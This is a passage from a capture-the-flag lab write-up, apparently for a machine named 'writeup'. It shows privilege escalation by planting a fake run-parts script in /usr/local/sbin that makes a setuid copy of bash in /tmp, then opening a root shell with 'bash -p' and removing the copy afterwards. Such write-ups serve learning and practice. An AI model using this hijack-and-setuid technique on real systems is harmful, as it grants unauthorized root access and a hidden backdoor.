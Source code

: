 I remade the payload, adding executable permissions:

```bash
jkr@writeup:~$ echo '#!/bin/sh' > /usr/local/sbin/run-parts
jkr@writeup:~$ echo 'cp /bin/bash /tmp/twig && chmod u+s /tmp/twig && chmod +x /tmp/twig' >> /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

I then ran it - I just had to tell bash not to drop privileges with the `-p` flag!

![[Pasted image 20210715223211.png]]

45 minutes to read flag, another 10-15 to get shell

confirm no ssh:

```bash
twig-4.4# ls -la /root/.ssh
ls: cannot access '/root/.ssh': No such file or directory
```

delete binary and go:

```bash
twig-4.4# rm /tmp/twig
twig-4.4# exit
```